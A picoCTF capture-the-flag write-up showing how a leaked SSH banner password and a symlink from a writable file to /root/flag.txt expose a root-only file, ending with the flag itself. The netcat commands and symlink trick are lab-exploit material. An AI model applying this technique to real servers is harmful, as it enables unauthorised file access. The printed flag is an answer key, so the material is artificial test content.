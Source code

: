 ## Descripción:
Can you abuse the banner?The server has been leaking some crucial information on `tethys.picoctf.net 60490`. Use the leaked information to get to the server.To connect to the running application use `nc tethys.picoctf.net 65395`. From the above information abuse the machine and find the flag in the /root directory.

Hints:
- Do you know about symlinks?
- Maybe some small password cracking or guessing

## Solución:
```
artacas-picoctf@webshell:~$ nc tethys.picoctf.net 60490
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234

Protocol mismatch.

artacas-picoctf@webshell:~$ nc tethys.picoctf.net 65395
*************************************
**************WELCOME****************
*************************************

what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
DEF CON
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Driper
Lol, good try, try again and good luck

What is the top cyber security conference in the world?
DEF CON     
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
player@challenge:~$ cd /home/player
rm banner
ln -s /root/flag.txt banner
cd /home/player
player@challenge:~$ rm banner
ln -s /root/flag.txt banner
player@challenge:~$ ln -s /root/flag.txt banner
player@challenge:~$ ls     
ls
banner  text
player@challenge:~$ cat banner
cat banner
cat: banner: Permission denied
player@challenge:~$ ^C 
artacas-picoctf@webshell:~$ nc tethys.picoctf.net 65395
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_b3ee718e}
```
